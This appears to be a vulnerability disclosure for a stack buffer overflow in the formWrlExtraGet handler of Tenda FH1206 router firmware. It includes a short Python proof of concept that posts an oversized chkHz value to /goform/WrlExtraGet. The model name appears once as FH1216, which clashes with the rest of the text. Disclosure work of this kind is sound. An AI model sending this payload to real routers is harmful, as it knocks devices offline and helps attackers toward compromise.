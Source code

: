 

# formWrlExtraGet

## Overview

- Firmware download website: https://www.tendacn.com/hk/download/detail-2344.html

## Affected version

FH1206 V1.2.0.8(8155)_EN

## Vulnerability details

There is a stack buffer overflow vulnerability in Tenda FH1216 V1.2.0.8(8155)_EN, located in the **formWrlExtraGet** function. The function receives the `chkHz` parameter from a POST request. ` strcat(v60, src);` The statement will cause a buffer overflow. The `chkHz` value provided by the user may exceed the capacity of the `v60` array, thereby triggering this security vulnerability.



![image-20240813193915831](./tenda_FH1206_buffer_overflow.assets/image-20240813193915831.png)

## POC

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/WrlExtraGet"
payload = b"a"*7000

data = {"chkHz": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240813193640425](./tenda_FH1206_buffer_overflow.assets/image-20240813193640425.png)